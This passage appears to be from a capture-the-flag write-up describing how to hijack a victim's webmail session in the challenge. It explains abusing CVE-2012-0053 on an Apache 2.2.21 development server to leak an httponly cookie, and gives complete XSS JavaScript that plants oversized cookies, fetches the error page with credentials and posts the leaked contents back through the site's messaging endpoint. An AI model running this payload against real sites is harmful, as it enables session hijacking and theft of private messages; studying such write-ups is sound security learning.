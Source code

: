 ### Stealing Julian Assange's Session Cookie

We have everything in order to decrypt Julian Assange's emails. But in order to actually view the encrypted email, we have to
hijack Julian Assange's session. To do this, one would normally steal the cookies through `document.cookie`. Unfortunately,
the cookie is `httponly`, which makes it impossible for us to fetch it through javascript.

Remember the development server from earlier?

It turns out that the development server's version isn't the same as the production one. Why is that?

After some research on `Apache 2.2.21`, we discover that it is vulnerable to [CVE-2012-0053](https://www.cvedetails.com/cve/CVE-2012-0053/).

Basically, if we send an invalid header to the development server,
Apache will respond with a 400 error message as well as the complete header and value causing the error.

This means that if we send an invalid cookie (such as a very long cookie), Apache will return a 400 message and spit out the cookie in the response body.

And since this development server has specified that the session
cookies are shared between http://54.172.225.153 and http://54.172.225.153:8000, it should work.

So let's update our XSS script again :

```txt
function setCookies (good) {
    // Construct string for cookie value
    var str = "";
    for (var i=0; i< 819; i++) {
        str += "x";
    }
    // Set cookies
    for (i = 0; i < 10; i++) {
        // Expire evil cookie
        if (good) {
            var cookie = "xss"+i+"=;expires="+new Date(+new Date()-1).toUTCString()+"; path=/;";
        }
        // Set evil cookie
        else {
            var cookie = "xss"+i+"="+str+"; path=/;";
        }
        document.cookie = cookie;
    }
}

function send_back(data) {
  setCookies(1);
  var req = new XMLHttpRequest();
  req.open("POST", "http://54.172.225.153/send.php");
  req.setRequestHeader("Content-type","application/x-www-form-urlencoded");
  req.send("encMessage=" + encodeURIComponent(data) + "&toID=8&subject=Test&origMessage=");
}

setCookies()
var req = new XMLHttpRequest();
req.onreadystatechange=function() {
  if(req.readyState==4 ) {
    send_back(req.responseText)
  }
}
req.withCredentials = true;
req.open('GET','http://54.172.225.153:8000/');
req.send(null);
```